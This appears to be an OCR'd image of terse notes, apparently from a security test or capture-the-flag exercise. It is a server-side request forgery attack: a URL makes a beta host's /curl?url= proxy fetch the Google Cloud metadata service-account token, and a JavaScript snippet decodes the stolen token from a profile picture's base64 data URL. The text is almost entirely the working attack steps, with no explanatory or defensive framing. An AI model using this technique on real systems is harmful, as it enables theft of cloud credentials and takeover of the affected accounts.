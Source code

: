 TODO: token gcloud login
      browser only chrome AOCC profile
      allow-list nginx for 9-beta minimi ingress

https://minimi.caas-0009.beta.oakshirley.com/curl?url=http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/token


http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/token

const imageSrc = document.getElementById('profile-picture').src;
imageSrc

atob(imageSrc.split(',')[1]);
